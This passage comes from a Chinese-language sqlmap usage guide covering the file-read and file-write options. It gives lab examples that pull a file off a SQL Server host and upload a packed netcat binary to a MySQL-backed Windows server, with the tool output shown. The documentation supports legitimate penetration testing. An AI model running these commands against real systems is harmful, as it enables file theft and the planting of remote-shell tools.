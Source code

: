 当数据库为MySQL，PostgreSQL或Microsoft SQL Server，并且当前用户有权限使用特定的函数。读取的文件可以是文本也可以是二进制文件。

列举一个Microsoft SQL Server 2005的例子：

```
$ python sqlmap.py -u "http://192.168.136.129/sqlmap/mssql/iis/get_str2.asp?name=luther" \
--file-read "C:/example.exe" -v 1

[...]
[hh:mm:49] [INFO] the back-end DBMS is Microsoft SQL Server
web server operating system: Windows 2000
web application technology: ASP.NET, Microsoft IIS 6.0, ASP
back-end DBMS: Microsoft SQL Server 2005

[hh:mm:50] [INFO] fetching file: 'C:/example.exe'
[hh:mm:50] [INFO] the SQL query provided returns 3 entries
C:/example.exe file saved to:    '/software/sqlmap/output/192.168.136.129/files/C__example.exe'
[...]

$ ls -l output/192.168.136.129/files/C__example.exe 
-rw-r--r-- 1 inquis inquis 2560 2011-MM-DD hh:mm output/192.168.136.129/files/C__example.exe

$ file output/192.168.136.129/files/C__example.exe 
output/192.168.136.129/files/C__example.exe: PE32 executable for MS Windows (GUI) Intel
80386 32-bit
```

### 把文件上传到数据库服务器中

参数：--file-write,--file-dest

当数据库为MySQL，PostgreSQL或Microsoft SQL Server，并且当前用户有权限使用特定的函数。上传的文件可以是文本也可以是二进制文件。

列举一个MySQL的例子：

```
$ file /software/nc.exe.packed 
/software/nc.exe.packed: PE32 executable for MS Windows (console) Intel 80386 32-bit

$ ls -l /software/nc.exe.packed
-rwxr-xr-x 1 inquis inquis 31744 2009-MM-DD hh:mm /software/nc.exe.packed

$ python sqlmap.py -u "http://192.168.136.129/sqlmap/mysql/get_int.aspx?id=1" --file-write \
"/software/nc.exe.packed" --file-dest "C:/WINDOWS/Temp/nc.exe" -v 1

[...]
[hh:mm:29] [INFO] the back-end DBMS is MySQL
web server operating system: Windows 2003 or 2008
web application technology: ASP.NET, Microsoft IIS 6.0, ASP.NET 2.0.50727
back-end DBMS: MySQL &gt;= 5.0.0

[...]
do you want confirmation that the file 'C:/WINDOWS/Temp/nc.exe' has been successfully 
written on the back-end DBMS file system? [Y/n] y
[hh:mm:52] [INFO] retrieved: 31744
[hh:mm:52] [INFO] the file has been successfully written and its size is 31744 bytes, 
same size as the local file '/software/nc.exe.packed'
```
